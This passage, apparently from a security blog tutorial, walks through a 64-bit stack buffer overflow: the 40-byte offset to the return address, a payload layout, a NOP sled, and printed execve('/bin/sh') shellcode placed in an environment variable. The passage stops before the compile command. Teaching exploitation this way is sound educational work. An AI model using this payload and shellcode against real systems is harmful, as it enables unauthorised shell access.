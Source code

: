 When the leave instruction is executed, it collapses the stack frame and pops the base address stored underneath it back into RBP. Then, lastly, the ret instruction will pop the address underneath our main() frame off the stack to redirect the flow of our program. 

Where the sub instruction opens up the stack by 0x20 (32) bytes, that tells us we need to write past this, plus the base pointer address (where pointers are 8 bytes on a 64 bit machine). So after 40 bytes we can begin to write into the space of our return address. So our payload will look like...

	'A' * 40 | RET address | 0x10 (newline)

With this possible, we can point to any instructions anywhere within the process space, even instructions we place inside it ourselves. Two common options in doing this are by placing this within the buffer we send the payload in or in an environment variable that'll sit on the stack. I'll go with the latter, with some machine code that will give back a shell on our terminal. 

It is here, at getting shellcode, where I'm probably weakest, because I'm much more capable of reading competently crafted assembly than I am in writing it. So, like the skid I am, and <a href="https://systemoverlord.com/2014/06/05/minimal-x86-64-shellcode-for-binsh/">with proper attribution towards security engineer David Tomaschik I'm stealing some</a>, with some slight modification for ease in exploitation.

{% highlight Assembly %}
	BITS 64
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	xor rax, rax
	add rax, 59
	xor rdi, rdi
	push rdi
	mov rdi, 0x68732F2f6e69622F
	push rdi
	lea rdi, [rsp]
	xor rsi, rsi
	xor rdx, rdx
	syscall
 
{% endhighlight %}

What this assembly does when run is launch the sh shell. The nop instruction is a kind of non-instruction that just passes the program counter onward to the next space. Having a sled of these helps out a bit when you can't predict very easily where your pointer will land. Of course, you can use any shellcode you like, and you would probably learn most from compiling your own. To compile, try the following with nasm installed and in your path:
